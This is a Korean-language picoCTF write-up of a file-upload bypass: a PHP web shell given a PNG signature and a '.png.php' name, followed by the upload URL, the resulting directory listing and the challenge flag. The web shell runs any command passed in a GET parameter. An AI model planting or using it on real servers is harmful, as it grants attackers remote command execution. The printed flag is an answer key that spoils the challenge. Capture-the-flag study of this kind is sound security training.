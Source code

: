 ```yaml
---
tags:
  - picoCTF
  - "#web"
  - "#File-Upload"
  - "#PNG"
  - "#php"
tech:
---
```



# Walk Throught

문제를 읽어보면 PNG 파일만 업로드 할 수 있는 시스템이라는 언급이 되어있다. 링크로 접속하면 파일을 업로드 할 수 있는 인터페이스가 보이는 PNG 파일 업로드 외에 다른 파일을 업로드하면 다음과 같은 메시지가 뜬다.
```
Error: File name does not contain '.png'.
```
힌트를 얻기 위해 "/robots.txt"로 접속하면 두 파일이 보인다.
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
``` 
아래는 instruction.txt 파일이다.
```text
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
읽어보면 PNG 파일 시그니처를 검사해 PNG 파일의 유효성을 체크하는 듯 보인다. 그렇다면 PHP 파일을 PNG 파일 시그니처만 삽입해서 업로드하면 어떨까? 

PHP 파일을 통해서 Shell을 사용할 수 있는 Payload는 다음 링크에서 얻을 수 있다.
```
https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
```
해당 파일을 다음과 같이 수정하자.
```html
PNG
 <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

이제 파일을 업로드하면 PNG 유효성 체크를 통과해서 PHP를 실행시킬 수 있다. 다음과 같은 URL로 접속하자.
```
http://atlas.picoctf.net:49280/uploads/payload.png.php
```
시스템 내에 숨겨진 flag에 찾기위해 최초 접근했던 디렉터리로 가보자.
```
total 16
drwxrwxrwt 1 www-data www-data   21 Mar 12  2024 .
drwxr-xr-x 1 root     root       18 Nov 21  2023 ..
-rw-r--r-- 1 root     root       49 Mar 12  2024 GQ4DOOBVMMYGK.txt
-rw-r--r-- 1 root     root     1572 Feb  7  2024 index.php
-rw-r--r-- 1 root     root      415 Feb  7  2024 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7  2024 robots.txt
drwxr-xr-x 1 www-data root       70 Sep 18 07:30 uploads
```

"GQ4DOOBVMMYGK.txt" 에 플래그가 숨겨져있다.


/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */
